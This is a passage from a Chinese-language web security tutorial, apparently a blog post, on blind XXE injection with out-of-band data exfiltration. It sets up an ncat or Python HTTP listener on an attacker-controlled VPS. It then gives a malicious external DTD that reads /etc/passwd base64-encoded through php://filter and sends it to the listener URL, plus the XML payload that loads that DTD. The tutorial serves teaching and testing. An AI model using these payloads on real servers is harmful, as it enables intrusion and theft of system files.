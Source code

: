 [![](https://p1.ssl.qhimg.com/t01b3b9e6918d232b4e.png)](https://p1.ssl.qhimg.com/t01b3b9e6918d232b4e.png)

进行解密后得到对应内容

[![](https://p5.ssl.qhimg.com/t013c9a24721133caea.png)](https://p5.ssl.qhimg.com/t013c9a24721133caea.png)

**本地测试无回显注入读取文件**

但是，在实际情况中，大多数情况下服务器上的 XML 并不是输出用的，所以就少了输出这一环节，这样的话，即使漏洞存在，我们的payload的也被解析了，但是由于没有输出，我们也不知道解析得到的内容是什么，因此我们想要现实中利用这个漏洞就必须找到一个不依靠其回显的方法——外带数据

先看一下漏洞示例：

[![](https://p5.ssl.qhimg.com/t01ebb323b6ce0d83c9.png)](https://p5.ssl.qhimg.com/t01ebb323b6ce0d83c9.png)

相较于前面有回显的漏洞代码，我们去掉了内容输出的一部分。这样，用之前的payload就没有作用了：

[![](https://p5.ssl.qhimg.com/t01e90789c7f7181b77.png)](https://p5.ssl.qhimg.com/t01e90789c7f7181b77.png)

Payload的构造：

有了前面使用外部DTD文件来拼接内部DTD的参数实体的经验，我们可以知道，通过外部DTD的方式可以将内部参数实体的内容与外部DTD声明的实体的内容拼接起来，那么我们就可以有这样的设想：
1. 客户端发送payload 1给web服务器
1. web服务器向vps获取恶意DTD，并执行文件读取payload2
1. web服务器带着回显结果访问VPS上特定的FTP或者HTTP
1. 通过VPS获得回显（nc监听端口）
首先，我们使用ncat监听一个端口：

[![](https://p3.ssl.qhimg.com/t01b6e73839137cfe42.png)](https://p3.ssl.qhimg.com/t01b6e73839137cfe42.png)

也可以用python创建一个建议的http服务。

```
python -m SimpleHTTPServer 端口
```

然后，我们构造payload：

我们选择使用外部DTD，在我们自己所能掌控（或是自己搭建）的主机上编写一个dtd文件：

```
&lt;!ENTITY % file SYSTEM “PHP://filter/read=convert.base64-encode/resource=/etc/passwd”&gt;

&lt;!ENTITY % all “&lt;!ENTITY send SYSTEM ‘监听的url+端口/?file;’&gt;”&gt;

%all;
```

[![](https://p4.ssl.qhimg.com/t014afb0a837226463c.png)](https://p4.ssl.qhimg.com/t014afb0a837226463c.png)

我们注意到，第一个参数实体的声明中使用到了php的base64编码，这样是为了尽量避免由于文件内容的特殊性，产生xml解析器错误。

Payload如下：

```
&lt;?xml version=”1.0” encoding=”utf-8” ?&gt;

&lt;!DDOCTYPE root SYSTEM “dtd文件”&gt;

&lt;root&gt;&amp;send;&lt;/root&gt;
```
